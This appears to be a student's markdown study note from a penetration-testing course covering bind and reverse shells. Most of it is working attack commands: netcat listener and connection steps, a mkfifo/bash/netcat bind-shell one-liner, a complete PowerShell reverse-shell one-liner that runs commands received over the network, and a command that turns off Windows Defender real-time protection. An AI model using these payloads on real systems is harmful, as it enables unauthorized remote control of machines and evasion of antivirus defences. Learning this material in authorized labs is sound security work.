


### Bind Shell

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).



#### Practicing with GNU Netcat

##### No. 1: Server - Target starting Netcat listener

```bash
nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

##### No. 2: Client - Attack box connecting to target

```bash
nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

##### No. 3: Server - Target receiving connection from client

```bash
nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!
```

##### No. 4: Client - Attack box sending message Hello Academy

```bash
nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy
```

##### No. 5: Server - Target receiving Hello Academy message

```bash
victim@server:~ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

#### Establishing a Basic Bind Shell with Netcat

##### No. 1: Server - Binding a Bash shell to the TCP session

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <attacker IP> <port > /tmp/f
```

##### No. 2: Client - Connecting to bind shell on target

```bash
nc -nv 10.129.41.200 7777

Target@server:~$ 
```

### Reverse Shell

With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.



[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

#### Hands-on With A Simple Reverse Shell in Windows

##### Server (attack box)

```bash
sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

##### Client (target)

```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<victim-ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

##### Disable AV

```bash
PS C:\Users\sam> Set-MpPreference -DisableRealtimeMonitoring $true
```

